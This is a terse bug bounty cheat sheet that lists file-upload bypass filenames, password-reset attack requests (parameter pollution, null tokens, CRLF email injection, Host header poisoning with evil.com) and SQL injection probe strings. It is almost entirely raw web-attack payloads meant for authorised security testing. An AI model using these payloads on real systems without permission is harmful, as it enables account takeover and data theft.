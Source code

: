 # Bug Bounty Tips
---

## File Upload

> .htaccess

> file.svg

> file.SVg

> file.png.svg

> file.php%00.png

> file.png' or '1'='1

> ../../file.png

> file.'svg

## Password Reset

> POST /reset  
email=victim@tld.xyz&email=hacker@tld.xyz

> POST /reset  
email=victim@tld.xyz&token=$BF$

> POST /reset  
email=victim@tld.xyz&token=

> POST /reset  
email=victim@tld.xyz&token=0000000

> POST /reset  
email=victim@tld.xyz&token=nul

> POST /reset  
email=victim@tld.xyz&token=nil

> POST /reset  
email=victim@tld.xyz&token=HACKER-TOKEN

> POST /reset  
email=victim@tld.xyz%0a%0dcc:hacker@tld.xyz

> POST /reset  
email=victim@tld.xyz,hacker@tld.xyz

> POST /reset  
email=victim@tld.xyz%20hacker@tld.xyz

> POST /reset  
email=victim@tld.xyz|hacker@tld.xyz

> POST /reset  
email=victim

> POST /reset  
email=victim@tld

> POST /reset  
Host: evil.com

> POST /reset
{"email":["victim@tld.xyz","hacker@tld.xyz"]}

> Check body response for password token

> Token generation: timestamp? userid? useremail? random?

## SQL Injection

`/?q=1`

`/?q=1'`

`/?q=1"`

`/?q=[1]`

`/?q[]=1`

```/?q=1` ```

`/?q=1\`

`/?q=1/*'*/`

`/?q=1/*!1111'*/`

`/?q=1'||'asd'||'`

`/?q=1' or '1'='1`

`/?q=1 or 1=1`

`/?q='or''='`
